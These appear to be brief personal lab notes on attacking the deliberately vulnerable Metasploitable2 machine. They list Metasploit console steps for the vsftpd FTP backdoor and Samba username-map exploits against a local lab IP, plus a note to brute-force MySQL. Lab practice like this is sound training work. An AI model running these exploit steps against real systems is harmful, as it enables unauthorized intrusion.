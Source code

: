 netsurf http://10.0.0.5
startMetasploitableBrowser

# Metasploit -> Metasploitable2
msfconsole

FTP (21)
search vsftp
use 0
info
set RHOST 10.0.0.5
expoit

SAMBA (139)
user_map (2003)
use 8
show options
set RHOST 10.0.0.5
exploit

MYSQL  3306 BRUTE FORCE the PASSWORD
